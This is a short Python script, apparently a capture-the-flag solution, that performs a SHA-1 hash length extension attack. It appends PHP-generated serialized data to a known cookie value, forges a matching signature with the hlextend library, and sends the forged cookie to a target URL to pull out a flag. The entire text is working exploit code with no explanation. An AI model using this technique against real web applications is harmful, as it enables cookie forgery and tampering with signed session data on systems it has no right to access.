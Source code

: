 ```python
php_output = subprocess.check_output('php phpscript.php', shell=True, stderr=subprocess.STDOUT)
php_output = php_output.split('<')[0].split('\n')[1]

original_hash = '2141b332222df459fd212440824a35e63d37ef69'
original_data = 'b:1;'
# '\x0a' is our new line delimiter
appended_data = '\x0a' + php_output
key_length = 8

sha = hlextend.new('sha1')
cookie = sha.extend(appended_data, original_data, key_length, original_hash)
cookie_hash = sha.hexdigest()

output = php_urlencode(cookie)
cookies = {'custom_settings_hash': cookie_hash,
           'custom_settings': output}
results = requests.get(url, cookies=cookies).text
print [line for line in results.split('\n') if 'yay_flag' in line]
```

